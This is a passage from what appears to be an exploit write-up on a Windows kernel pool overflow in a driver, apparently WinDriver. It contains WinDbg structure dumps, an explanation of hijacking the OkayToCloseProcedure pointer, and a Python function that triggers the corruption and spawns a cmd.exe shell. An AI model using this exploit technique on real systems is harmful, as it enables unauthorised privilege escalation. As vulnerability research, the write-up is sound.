       +0x002 CaseInsensitive  : 0y0
      +0x002 UnnamedObjectsOnly : 0y1
      +0x002 UseDefaultObject : 0y0
      +0x002 SecurityRequired : 0y0
      +0x002 MaintainHandleCount : 0y0
      +0x002 MaintainTypeList : 0y0
      +0x002 SupportsObjectCallbacks : 0y0
      +0x002 CacheAligned     : 0y0
      +0x004 ObjectTypeCode   : 0
      +0x008 InvalidAttributes : 0xb0
      +0x00c GenericMapping   : _GENERIC_MAPPING
      +0x01c ValidAccessMask  : 0xf0003
      +0x020 RetainAccess     : 0
      +0x024 PoolType         : 0 ( NonPagedPool )
      +0x028 DefaultPagedPoolCharge : 0
      +0x02c DefaultNonPagedPoolCharge : 0x5c
      +0x030 DumpProcedure    : (null) 
      +0x034 OpenProcedure    : (null) 
      +0x038 CloseProcedure   : (null) 
      +0x03c DeleteProcedure  : (null) 
      +0x040 ParseProcedure   : (null) 
      +0x044 SecurityProcedure : 0x82cb02ac        long  nt!SeDefaultObjectMethod+0
      +0x048 QueryNameProcedure : (null) 
      +0x04c OkayToCloseProcedure : (null)         <--- OkayToCloseProcedure is offset 0x4c from 0x0
   +0x078 TypeLock         : 
      +0x000 Locked           : 0y0
      +0x000 Waiting          : 0y0
      +0x000 Waking           : 0y0
      +0x000 MultipleShared   : 0y0
      +0x000 Shared           : 0y0000000000000000000000000000 (0)
      +0x000 Value            : 0
      +0x000 Ptr              : (null) 
   +0x07c Key              : 0x6f436f49
   +0x080 CallbackList     :  [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x000 Flink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x004 Blink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
{% endhighlight %}

<p class="cn">So, 0x28 + 0x4c = 0x74, which is the location of where our pointer needs to be. But how is the OkayToCloseProcedure called? Turns out, that this is a registered aexit handler. So to trigger the execution of code, one just needs to free the corrupted IoCompletionReserve. We don't know which handle is associated with the overflown chunk, so we just free them all.</p>

{% highlight python %}
def trigger_lpe():
    """
    This function frees the IoCompletionReserve objects and this triggers the 
    registered aexit, which is our controlled pointer to OkayToCloseProcedure.
    """
    # free the corrupted chunk to trigger OkayToCloseProcedure
    for k, v in khandlesd.iteritems():
        kernel32.CloseHandle(v)
    os.system("cmd.exe")
{% endhighlight %}


[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt
[beefs_tutorials]: http://www.fuzzysecurity.com/tutorials.html